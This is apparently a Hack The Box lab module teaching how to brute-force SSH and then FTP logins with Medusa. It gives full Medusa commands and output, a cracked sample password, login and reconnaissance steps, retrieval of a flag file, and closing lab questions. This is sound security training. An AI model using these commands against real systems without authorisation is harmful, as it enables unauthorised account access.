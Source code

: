 In the dynamic landscape of cybersecurity, maintaining robust authentication mechanisms is paramount. While technologies like Secure Shell (`SSH`) and File Transfer Protocol (`FTP`) facilitate secure remote access and file management, they are often reliant on traditional username-password combinations, presenting potential vulnerabilities exploitable through brute-force attacks. In this module, we will delve into the practical application of `Medusa`, a potent brute-forcing tool, to systematically compromise both SSH and FTP services, thereby illustrating potential attack vectors and emphasizing the importance of fortified authentication practices.

`SSH` is a cryptographic network protocol that provides a secure channel for remote login, command execution, and file transfers over an unsecured network. Its strength lies in its encryption, which makes it significantly more secure than unencrypted protocols like `Telnet`. However, weak or easily guessable passwords can undermine SSH's security, exposing it to brute-force attacks.

`FTP` is a standard network protocol for transferring files between a client and a server on a computer network. It's also widely used for uploading and downloading files from websites. However, standard FTP transmits data, including login credentials, in cleartext, rendering it susceptible to interception and brute-forcing.

## Kick-off

**To follow along, start the target system via the question section at the bottom of the page.**

We begin our exploration by targeting an SSH server running on a remote system. Assuming prior knowledge of the username `sshuser`, we can leverage Medusa to attempt different password combinations until successful authentication is achieved systematically.

The following command serves as our starting point:

```shell-session
KaoruRyusaki@htb[/htb]$ medusa -h <IP> -n <PORT> -u sshuser -P 2023-200_most_used_passwords.txt -M ssh -t 3
```

Let's break down each component:

- `-h <IP>`: Specifies the target system's IP address.
- `-n <PORT>`: Defines the port on which the SSH service is listening (typically port 22).
- `-u sshuser`: Sets the username for the brute-force attack.
- `-P 2023-200_most_used_passwords.txt`: Points Medusa to a wordlist containing the 200 most commonly used passwords in 2023. The effectiveness of a brute-force attack is often tied to the quality and relevance of the wordlist used.
- `-M ssh`: Selects the SSH module within Medusa, tailoring the attack specifically for SSH authentication.
- `-t 3`: Dictates the number of parallel login attempts to execute concurrently. Increasing this number can speed up the attack but may also increase the likelihood of detection or triggering security measures on the target system.

```shell-session
KaoruRyusaki@htb[/htb]$ medusa -h IP -n PORT -u sshuser -P 2023-200_most_used_passwords.txt -M ssh -t 3

Medusa v2.2 [http://www.foofus.net] (C) JoMo-Kun / Foofus Networks <jmk@foofus.net>
...
ACCOUNT FOUND: [ssh] Host: IP User: sshuser Password: 1q2w3e4r5t [SUCCESS]
```

Upon execution, Medusa will display its progress as it cycles through the password combinations. The output will indicate a successful login, revealing the correct password.

## Gaining Access

With the password in hand, establish an SSH connection using the following command and enter the found password when prompted:

```shell-session
KaoruRyusaki@htb[/htb]$ ssh sshuser@<IP> -p PORT
```

This command will initiate an interactive SSH session, granting you access to the remote system's command line.

### Expanding the Attack Surface

Once inside the system, the next step is identifying other potential attack surfaces. Using `netstat` (within the SSH session) to list open ports and listening services, you discover a service running on port 21.

```shell-session
KaoruRyusaki@htb[/htb]$ netstat -tulpn | grep LISTEN

tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -
tcp6       0      0 :::22                   :::*                    LISTEN      -
tcp6       0      0 :::21                   :::*                    LISTEN      -
```

Further reconnaissance with `nmap` (within the SSH session) confirms this finding as an ftp server.

```shell-session
KaoruRyusaki@htb[/htb]$ nmap localhost

Starting Nmap 7.80 ( https://nmap.org ) at 2024-09-05 13:19 UTC
Nmap scan report for localhost (127.0.0.1)
Host is up (0.000078s latency).
Other addresses for localhost (not scanned): ::1
Not shown: 998 closed ports
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh

Nmap done: 1 IP address (1 host up) scanned in 0.05 seconds
```

### Targeting the FTP Server

Having identified the FTP server, you can proceed to brute-force its authentication mechanism.

If we explore the `/home` directory on the target system, we see an `ftpuser` folder, which implies the likelihood of the FTP server username being `ftpuser`. Based on this, we can modify our Medusa command accordingly:

```shell-session
KaoruRyusaki@htb[/htb]$ medusa -h 127.0.0.1 -u ftpuser -P 2020-200_most_used_passwords.txt -M ftp -t 5

Medusa v2.2 [http://www.foofus.net] (C) JoMo-Kun / Foofus Networks <jmk@foofus.net>

GENERAL: Parallel Hosts: 1 Parallel Logins: 5
GENERAL: Total Hosts: 1
GENERAL: Total Users: 1
GENERAL: Total Passwords: 197
...
ACCOUNT FOUND: [ftp] Host: 127.0.0.1 User: ... Password: ... [SUCCESS]
...
GENERAL: Medusa has finished.
```

The key differences here are:

- `-h 127.0.0.1`: Targets the local system, as the FTP server is running locally. Using the IP address tells medusa explicitly to use IPv4.
- `-u ftpuser`: Specifies the username `ftpuser`.
- `-M ftp`: Selects the FTP module within Medusa.
- `-t 5`: Increases the number of parallel login attempts to 5.

### Retrieving The Flag

Upon successfully cracking the FTP password, establish an FTP connection. Within the FTP session, use the `get` command to download the `flag.txt` file, which may contain sensitive information.:

```shell-session
KaoruRyusaki@htb[/htb]$ ftp ftp://ftpuser:<FTPUSER_PASSWORD>@localhost

Trying [::1]:21 ...
Connected to localhost.
220 (vsFTPd 3.0.5)
331 Please specify the password.
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
200 Switching to Binary mode.
ftp> ls
229 Entering Extended Passive Mode (|||25926|)
150 Here comes the directory listing.
-rw-------    1 1001     1001           35 Sep 05 13:17 flag.txt
226 Directory send OK.
ftp> get flag.txt
local: flag.txt remote: flag.txt
229 Entering Extended Passive Mode (|||37251|)
150 Opening BINARY mode data connection for flag.txt (35 bytes).
100% |***************************************************************************|    35      776.81 KiB/s    00:00 ETA
226 Transfer complete.
35 bytes received in 00:00 (131.45 KiB/s)
ftp> exit
221 Goodbye.
```

Then read the file to get the flag:

```shell-session
KaoruRyusaki@htb[/htb]$ cat flag.txt
HTB{...}
```

The ease with which such attacks can be executed underscores the importance of employing strong, unique passwords.




#### Questions

What was the password for the ftpuser?

* 

After successfully brute-forcing the ssh session, and then logging into the ftp server on the target, what is the full flag found within flag.txt?

* 